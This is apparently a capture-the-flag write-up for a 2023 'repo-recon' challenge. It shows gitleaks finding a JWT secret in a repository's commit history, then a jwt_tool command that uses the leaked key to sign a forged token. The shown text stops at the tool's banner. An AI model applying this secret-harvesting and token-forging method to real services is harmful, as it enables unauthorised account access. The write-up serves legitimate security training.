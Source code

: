 
### Leaked JWT key in git commits

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ git clone https://github.com/mowzk/repo-recon

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/repo-recon]
└─$ gitleaks detect -r gitleaks.json -v --source .

    ○
    │╲
    │ ○
    ○ ░
    ░    gitleaks

Finding:     JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
Secret:      18b471a7d39b001bf79f12ab952f1364
RuleID:      generic-api-key
Entropy:     3.628928
File:        .env
Line:        1
Commit:      9483ea909352a24438acc7fdae5fb38eee437064
Author:      Elliot Ward
Email:       elliot.ward@snyk.io
Date:        2023-10-24T07:41:03Z
Fingerprint: 9483ea909352a24438acc7fdae5fb38eee437064:.env:generic-api-key:1

11:02PM INF 5005 commits scanned.
11:02PM INF scan completed in 215ms
11:02PM WRN leaks found: 1
```

![](/assets/obsidian/3d5af97f3596f2df2ff27da799068002.png){:target='_blank'}


### Forge JWT token

Sign example token provided by `jwt_tool` with the leaked key, username doesn't matter

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ python /opt/sectools/web/JWT/jwt_tool/jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po" -p '18b471a7d39b001bf79f12ab952f1364' -S hs256

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
```